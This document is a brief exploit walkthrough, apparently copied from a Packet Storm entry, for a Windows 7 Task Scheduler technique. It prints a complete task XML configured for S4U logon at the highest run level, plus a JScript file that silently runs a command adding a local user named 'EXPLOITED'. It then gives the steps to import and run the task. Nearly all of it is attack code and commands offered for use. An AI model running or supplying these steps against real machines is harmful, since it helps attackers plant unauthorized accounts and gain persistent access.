 From：https://packetstormsecurity.com/files/142191

---

TestOS: Win7x86

### 1. get UserId

cmd:

`whoami`

### 2. create file "w00tw00t.xml"

code:

```
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>1337-01-01T13:37:07.9601296</Date>
    <Author>NT-AUTHORITY\SYSTEM</Author>
  </RegistrationInfo>
  <Triggers />
  <Principals>
    <Principal id="Author">
      <UserId>win-r7mm90erbmd\a</UserId>
      <LogonType>S4U</LogonType>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>Parallel</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>false</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>P3D</ExecutionTimeLimit>
    <Priority>7</Priority>
    <RestartOnFailure>
      <Interval>PT1M</Interval>
      <Count>3</Count>
    </RestartOnFailure>
  </Settings>
  <Actions Context="Author">
    <Exec>
      <Command>%USERPROFILE%\Desktop\EXPLOIT.JS</Command>
    </Exec>
  </Actions>
</Task>
```

Change it: `<UserId>win-r7mm90erbmd\a</UserId>`

Save to `%USERPROFILE%\Desktop\w00tw00t.xml`

### 3. create file "EXPLOIT.JS"

code:

```
suidshell = WScript.CreateObject("WScript.Shell");
suidshell.run("cmd.exe /c net user EXPLOITED EXPLOITED /add", 0);
```

Save to `%USERPROFILE%\Desktop\EXPLOIT.JS`

### 4. Run 'taskschd.msc' -> Import Task.. -> Select and Open: w00tw00t.xml -> Run

Add user EXPLOITED

Tips:

- requires administrator permission to import Task




